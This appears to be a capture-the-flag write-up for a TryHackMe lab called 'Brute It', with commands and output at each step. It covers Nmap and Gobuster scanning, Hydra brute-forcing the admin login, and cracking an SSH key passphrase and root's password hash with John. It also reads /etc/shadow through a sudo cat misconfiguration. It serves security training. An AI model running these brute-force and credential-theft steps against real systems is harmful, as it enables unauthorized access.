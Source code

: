 # Brute It

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---

## Reconnaissance

- Run Nmap Scan

```bash
$ nmap -sC -sV 10.10.151.107 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 14:20 IST
Nmap scan report for 10.10.151.107
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### How many ports are open?
- **Answer:** 2

### What version of SSH is running?
- **Answer:** OpenSSH 7.6p1

### What version of Apache is running?
- **Answer:** 2.4.29

### Which Linux distribution is running?
- **Answer:** Ubuntu

### What is the hidden directory?
- **Answer:** /admin
- **Steps to Reproduce:** 

```bash
$ gobuster dir -u http://10.10.151.107/ -t 50 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.107/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/10 14:23:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.10.151.107/admin/]
/index.html           (Status: 200) [Size: 10918]                                
/server-status        (Status: 403) [Size: 278]                                  
                                                                                 
===============================================================
2021/06/10 14:23:53 Finished
===============================================================
```

---

## Getting a shell

![Admin Login Page](Images/BruteIt-login.png)

### What is the user:password of the admin panel?
- **Answer:** admin:xavier
- **Steps to Reproduce:** 
    - Using Hydra to bruteforce the password:

```bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.151.107 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 14:36:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.151.107:80/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid
[80][http-post-form] host: 10.10.151.107   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 14:37:07
```

![Admin Panel](Images/BruteIt-admin.png)

### What is John's RSA Private Key passphrase?
- **Answer:** rockinroll
- **Steps to Reproduce:** 
    - Copy the RSA private key and change the file permission to `600`
    - Use `ssh2john` for bruteforcing with john.

```bash
$ locate ssh2john
/usr/share/john/ssh2john.py

$ python3 /usr/share/john/ssh2john.py id_rsa > forjohn.txt

$ john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
1g 0:00:00:05 57.35% (ETA: 14:46:30) 0.1792g/s 1483Kp/s 1483Kc/s 1483KC/s erin1394
Session aborted
```

---

### user.txt
- **Answer:** THM{REDACTED}
- **Steps to Reproduce:** 

```bash
ssh -i id_rsa john@10.10.151.107
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 10 09:17:04 UTC 2021

  System load:  0.0                Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 39%                IP address for eth0: 10.10.151.107
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{REDACTED}
```

---

### Web flag
- **Answer:** THM{brut3_f0rce_is_e4sy}
- **Steps to Reproduce:** 
    - Once you login with the admin credentials, you can find the **Web Flag**.

---

## Privilege Escalation

### Find a form to escalate your privileges.

- `cat` can be used to escalate the privilege.

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

---

### What is the root's password?
- **Answer:** football
- **Steps to Reproduce:** 
- `sudo cat` the `/etc/shadow` file to get the hash of root user:

```bash
john@bruteit:~$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.
[..snip..]
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/
```

- Crack the hash using `john` or `hashcat`:

```bash
$ john root_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
football         (?)
1g 0:00:00:00 DONE 2/3 (2021-06-10 14:50) 10.00g/s 1280p/s 1280c/s 1280C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

---

### root.txt
- **Answer:** THM{REDACTED}
- **Steps to Reproduce:** 

```bash
john@bruteit:~$ su
Password: 
root@bruteit:/home/john# cd
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt 
THM{REDACTED}
```

---

